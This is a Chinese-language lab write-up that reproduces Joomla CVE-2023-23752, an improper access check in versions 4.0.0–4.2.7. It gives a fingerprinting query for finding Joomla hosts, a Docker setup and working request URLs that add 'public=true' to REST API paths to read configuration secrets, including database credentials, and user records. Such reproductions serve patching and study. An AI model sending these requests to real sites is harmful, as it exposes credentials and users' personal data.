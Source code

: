# Joomla application 权限绕过漏洞 CVE-2023-23752

## 漏洞描述

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://xz.aliyun.com/t/12175
- https://vulncheck.com/blog/joomla-for-rce

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## 网络测绘

```
app="Joomla"
```

## 环境搭建

Vulhub执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

![image-20230410085613826](images/image-20230410085613826.png)

## 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![image-20230410085938073](images/image-20230410085938073.png)

如果不添加`public=true`，则访问会被拒绝：

![image-20230410090110901](images/image-20230410090110901.png)

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```
